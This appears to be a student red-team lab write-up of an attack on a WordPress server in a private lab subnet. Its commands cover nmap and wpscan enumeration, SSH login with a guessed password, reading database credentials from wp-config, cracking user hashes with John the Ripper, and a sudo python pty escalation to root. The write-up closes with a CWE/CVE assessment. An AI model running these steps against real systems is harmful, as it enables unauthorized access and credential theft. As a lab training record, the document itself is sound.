 # Red Team: Summary of Operations

This document explains the steps of the attack and reports the vulnerabilities found within the systems.

## Table of Contents
- Network Topology
- Scanning and Host Discovery
- Attacking Target 1
    - Reconnaissance and Scanning
    - Exploitation
    - Vulnerability Assessment
    - Detection Mitigation


## Network Topology

The Diagram below depicts the network topology of a subnet of `192.168.1.1/24` including an attacker Kali Linux machine an ELK-Stack monitoring system, and a few Linux Ubuntu web servers. The Kali-Linux machine is used to attack vulnerable machines on the network. 

![Diagram](Images/Diagram.png)

## Scanning and Host Discovery

Nmap is used to scan the `192.168.1.1/24` subnet for host discovery, operating system detection, identifying open ports and their exposed services.

The hosts with IP addresses, operating systems, open ports listed in the table shown above were discovered using 

`nmap -A -sV 192.168.1.1/24`

Note: The option `-A` is for operating system detection and service version detection and is very verbose, however it is very noisy. The snapshot below shows the exposed services on the machines using `nmap -sV 192.168.1.1/24` as it has a shorter output.

![nmap output](Images/nmap.png)

## Attacking Target 1

### Reconnaissance and Scanning

All the public webpages on the Target 1 were visited to find any exposed sensitive information. The screenshot below shows that the web server uses the WordPress for content management.

![WordPress](Images/WordPress.PNG)

`wpscan` scanner that includes the WordPress vulnerability database is used to enumerate the usernames of the WordPress by brute forcing the author ID by

`wpscan --url 192.168.1.110/wordpress --enumerate u`

![wp-scan](Images/wp-scan.PNG)

### Exploitation

Two users `michael` and `steven` were discovered. The first obvious guess for a password would be the same as the username. It appeared to be the case for the user `michael`. Therefore, both the username and the password are `michael`. To secure a user shell in the Target1

`ssh michael@192.168.1.110`

The content of the website folder `/var/www` was investigated and hash values of two flags were found. One located in the `/var/www/html/service.html` while the other in `/var/www/flag2.txt`

The hash value of the flag1 is `b9bbcb33ellb80be759c4e844862482d`

![flag1](Images/flag1.PNG)

The hash value of the flag2 is `fc3fd58dcdad9ab23faca6e9a3e581c`

![flag2](Images/flag2.PNG)



The login information to access the database is stored in the `/var/www/html/wordpress/wp-config`

![wp-config](Images/wp-config.PNG)


To access the SQL database using `root` as the username, `R@3nSecurity` as the password and `localhost` as the host:

`mysql -u root -p'R@3nSecurity' -h localhost`

![mysql](Images/mysql.PNG)

To see all the databases

`SHOW databases;`

![database](Images/database.PNG)

To use the `wordpress` database and print the content of the `wp_posts`

`USE wordpress;`

`SELECT * FROM wp_posts;`

![tables](Images/tables.PNG)

Two other flags were found in `wp_posts` table of `wordpress` database.

The hash value of the flag3 is `afc01ab56b50591e7dccf93122770cd2`

The hash value of the flag4 is `715dea6c055b9fe3337544932f2941ce`

![flag34](Images/flag34.PNG)

Exploitable information was found in the `wp_users` table of the `WordPress` database 
The password hash values of the both `michael` and `steven` users are found in the 'wp_users'

`SELECT * FROM wp_users`

![wp_users](Images/wp_users.PNG)

The password hashes were dumped into the Kali machine as `pass.txt` and cracked with the John the Ripper program.

`john pass.txt`

![john](Images/john.PNG)

The `steven` password found to be `pink84`

Login to the Target 1 machine with 

`# ssh steven@192.168.1.110`

![steven](Images/steven.PNG)

To check the sudo privileges of the user `steven`

`sudo -l`

![prev](Images/prev.PNG)

The user `steven` has the privilege of running Python scripts as the root. To spawn a tty Bash shell

`sudo python -c 'import pty; pty.spawn("/bin/bash")'`

The flag 4 is also printed after spawning the shell.

![python](Images/python.PNG)

### Vulnerability Assessment

The following vulnerabilities were found and the Common Weakness Enumeration (CWE) were exploited during the attack

| CWE-| Weakness Description                 | Consequences                           |
|-----|--------------------------------------|----------------------------------------|
| 521 | Weak Password Requirements           | Sensitive Information Exposure         |
| 522 | Insufficiently Protected Credentials | Stolen password, granting a user shell |
| 287 | Improper Authentication              | Stolen password, granting a user shell |

The target runs the Apache 2.4.29 web server and WordPress 4.8.17, which both of them were outdated. There are 29 Common Vulnerabilities and Exposures (CVE) available for the Apache 2.4.29 web server. The list of all vulnerabilities are available in https://httpd.apache.org/security/vulnerabilities_24.html. CVE-2021-26691 and CVE-2019-0211 which result in heap overflow and arbitrary code execution are two examples of the sever vulnerabilities.
The WordPress 4.8.17 vulnerabilities are available in https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/
CVE-2018-19296 is one of the sever vulnerabilities makes this version vulnerable to an object injection attack.


